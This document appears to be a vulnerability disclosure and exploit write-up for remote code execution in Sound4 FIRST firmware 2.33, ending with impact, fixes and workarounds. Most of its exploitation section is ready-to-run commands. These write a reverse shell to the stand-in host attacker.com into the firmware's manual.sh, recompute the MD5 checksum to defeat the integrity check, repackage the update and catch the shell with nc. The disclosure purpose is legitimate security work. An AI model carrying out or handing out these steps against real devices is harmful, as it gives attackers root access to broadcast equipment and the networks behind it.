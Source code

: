# Sound4 FIRST (Firmware 2.33) - Remote Code Execution (RCE)

## Description

The Sound4 FIRST web-based management interface is vulnerable to Remote Code Execution (RCE) via a malicious firmware update package. The update mechanism fails to validate the integrity of `manual.sh`, allowing an attacker to inject arbitrary commands by modifying this script and repackaging the firmware.

## Product:
- **Vendor**: Sound4
- **Model**: FIRST
- **Firmware/Software**: 2.33

## Vulnerability:
- **Type**: Remote Code Execution (RCE)
- **Impact**: Full remote shell access as root via firmware update mechanism.
- **Access Required**: Web-based management interface login

## Vulnerable Endpoints:
- `/settings` → Firmware Upload (Software Update)

## Exploit Summary:
An attacker with access to the web-based admin interface can craft a malicious firmware update package that includes a backdoored `manual.sh` file, leading to remote code execution during the update process.

## Exploitation Steps:

1. **Download the Original Firmware**  
   From the official Sound4 support page:  
https://www.sound4helpdesk.com/pulse-eco-downloads


2. **Extract Firmware**  
```bash
tar -xvf PULSE-AES67-eco_v2.33.tar
```
3. **Modify manual.sh**
Replace or append your reverse shell in manual.sh:
```bash
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' > manual.sh
chmod +x manual.sh
```
4. **Update md5sum File**
Recalculate the checksum and replace it in md5sum:
```bash
md5sum manual.sh 
nano md5sum
```
5. **Prepare Firmware Structure**
Ensure these files are present:

    manual.sh (malicious)

    md5sum

    md5sum.gpg

    versions.sh

    warnings.xml

6. **Repackage Firmware**
```bash
tar -cf PULSE-AES67-eco_v2.33 ./
xz -C crc64 -k PULSE-AES67-eco_v2.33
mv PULSE-AES67-eco_v2.33.xz PULSE-AES67-eco_v2.33.upgbox
```
7. **Upload via Web Interface**

        Login to the web admin interface of the Sound4 device

        Navigate to: Settings → Software Update

        Upload the modified .upgbox file

8. **Trigger and Receive Reverse Shell**
    Once uploaded, the device executes manual.sh, and the reverse shell is triggered.

## Notes:

    Ensure listener is running on your attack machine (e.g., nc -lvnp 4444).

    The vulnerability relies on the firmware verification process trusting the MD5 hash and not validating against a secure signature.

## Proof of Concept (PoC) 
https://github.com/user-attachments/assets/fe6d9d28-1d04-48a2-bab4-37b57d627dd1

## Impact

Successful exploitation allows a remote attacker to:

    Execute arbitrary shell commands as root

    Gain persistent access to the device

    Modify system behavior or firmware

    Pivot to internal networks if the device is not properly segmented

## Suggested Fixes

    Implement strict integrity checks (cryptographic signature verification) during firmware upload.

    Restrict upload functionality to trusted administrators only.

    Sanitize and validate manual.sh execution.

## Workarounds

    Disable firmware upload functionality via the web interface if not in use.

    Use access control lists (ACLs) and firewall rules to restrict access to the web interface.

    Monitor firmware integrity by verifying checksums and timestamps regularly.

